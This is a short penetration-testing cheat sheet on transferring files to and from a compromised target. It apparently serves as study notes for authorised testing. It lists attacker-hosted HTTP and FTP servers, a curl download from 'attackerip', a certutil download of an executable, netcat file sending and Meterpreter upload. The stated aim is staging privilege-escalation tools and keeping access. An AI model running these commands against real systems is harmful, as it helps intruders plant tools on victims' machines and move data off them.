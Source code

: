 # File transfers

Once we gain initial access to our target we may need to upload additional tools to help us elevate privileges or provide easier methods of accessing the machine at a later point. We might also want to download files from the target for use in our report. The following list provides a few common techniques for executing file transfers.

### HTTP

On our attacking machine we have two options for serving files. The first (preferred) method is to run the SimpleHTTPServer Python module in the directory that contains the files we want to transfer.

```
python -m SimpleHTTPServer 80
python3 -m http.server 80
```

Our second option is to use our built in Apache server. To do this we need start the Apache 2 service. Once started our files will be served from var/www/html.

```
systemctl start Apache2 
```

Next, we use our target machine to request the desired filed from the server. The method varies slightly depending on the OS of the target machine.

#### **Linux**

```
wget http://sample.com/file.pdf
wget -O report_wget.pdf https://sample.com/report-2013.pdf
    -O saves the file with a different name on the local machine
curl -o file.pdf http://attackerip/file.pdf
axel -a -n 20 -o report_axel.pdf https://sample.com/report.pdf
    -n --used to specify the number of connections
    -a --provides a more concise progress indicator
    -o --used to specify a different name for the downloaded file
```

#### **Windows**

```
certutil -urlcache -f http://sourceip/file.exe [c:\desired_destination\desired_]name.exe
```

### FTP

Create an FTP server in the directory you are in, on port 21, allow anonymous access:

```
Python -m pyftpdlib 21
ftp $IPaddressofattacker
```

### Netcat

On receiving machine: `nc -nlvp 4444 > incoming.exe`

On sending machine: `nc – nv 10.11.23.33 4444 < file.exe`

### Meterpreter shell

Upload/download feature
